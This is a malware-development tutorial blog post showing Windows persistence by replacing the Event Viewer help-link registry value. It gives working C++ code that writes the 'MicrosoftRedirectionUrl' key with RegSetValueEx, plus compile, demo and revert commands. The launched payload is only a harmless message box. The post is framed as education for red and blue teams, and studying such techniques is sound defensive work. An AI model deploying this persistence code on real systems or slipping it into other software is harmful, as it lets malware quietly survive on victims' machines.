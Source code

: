 ```yaml
---
title:  "Malware development: persistence - part 14. Event Viewer help link. Simple C++ example."
date:   2022-10-09 03:00:00 +0300
header:
  teaser: "/assets/images/74/2022-10-09_05-28.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/74/2022-10-09_05-28.png){:class="img-responsive"}    

This post is the result of my own research into one of the interesting malware persistence trick: via replacing Windows Event Viewer help link.     

### event viewer help link

Windows' Event Viewer has existed for over a decade. The Event Viewer examines a limited number of logs that Windows maintains on your computer. The logs are `XML`-formatted text files containing plain content.     

![pers](/assets/images/74/2022-10-09_05-10.png){:class="img-responsive"}    

As part of its user interface, Event Viewer provides a link to *Event Log Online Help*:    

![pers](/assets/images/74/2022-10-09_05-11.png){:class="img-responsive"}    

When clicked, a default help Microsoft link will be opened, which is defined at the windows registry at `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer`:     

![pers](/assets/images/74/2022-10-09_05-13.png){:class="img-responsive"}    

As you may have guessed, it would be logical to assume that the key: `MicrosoftRedirectionURL` value can be changed in the interests of an attacker. That's the trick.    

### practical example

Let's look at a practical example. Firstly, as usually, create evil application, `meow-meow` "malware" (`hack.cpp`):    

```cpp
/*
hack.cpp
evil app for windows persistence via
event viewer help link update
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Then, create a program for persistence (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via
replace event viewer help link
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // event viewer
  const char* app = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Event Viewer";

  // evil app
  const char* exe = "file://Z:\\2022-10-09-malware-pers-14\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v "MicrosoftRedirectionUrl" /t REG_SZ /d "file://...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"MicrosoftRedirectionUrl", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

As you can see, the logic is simple, just update registry key value to `file://Z:\\2022-10-09-malware-pers-14\\hack.exe`.    

### demo

Let's go to see everything in action. Compile "malware":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/74/2022-10-09_17-31.png){:class="img-responsive"}    

check correctness:    

![pers](/assets/images/74/2022-10-09_05-38_1.png){:class="img-responsive"}    

and compile persistence script:    
```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/74/2022-10-09_05-24.png){:class="img-responsive"}    

Check default registry key values at the victim's machine - `Windows 10 x64` in my case:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer" /s
```

![pers](/assets/images/74/2022-10-09_05-25.png){:class="img-responsive"}    

then also run at the victim's machine - `Windows 10 x64` in my case:    

```powershell
.\pers.exe
```    

![pers](/assets/images/74/2022-10-09_05-26.png){:class="img-responsive"}    

Finally, try to click *Event Log Online Help* link again:    

![pers](/assets/images/74/2022-10-09_05-11.png){:class="img-responsive"}    

![pers](/assets/images/74/2022-10-09_05-27.png){:class="img-responsive"}    

Then I looked at the properties of `hack.exe` in Process Hacker 2:    

![pers](/assets/images/74/2022-10-09_05-34.png){:class="img-responsive"}    

![pers](/assets/images/74/2022-10-09_05-30.png){:class="img-responsive"}    

This means that when link clicked, `mmc.exe` is launched, which in turn launches malicious behavior.    

For revert, after end of experiments, run:    

```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v "MicrosoftRedirectionUrl" /t REG_SZ /d "http://go.microsoft.com/fwlink/events.asp" /f
```

![pers](/assets/images/74/2022-10-09_05-38.png){:class="img-responsive"}    

or just restore virtual machine.     

> This is admin-level malware persistence trick, so this feature is work only with admin permissions       

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

> This is a practical case for educational purposes only.      

[Event Viewer](https://learn.microsoft.com/en-us/shows/inside/event-viewer)    
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)      
[source code in github](https://github.com/cocomelonc/2022-10-09-malware-pers-14)        

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*

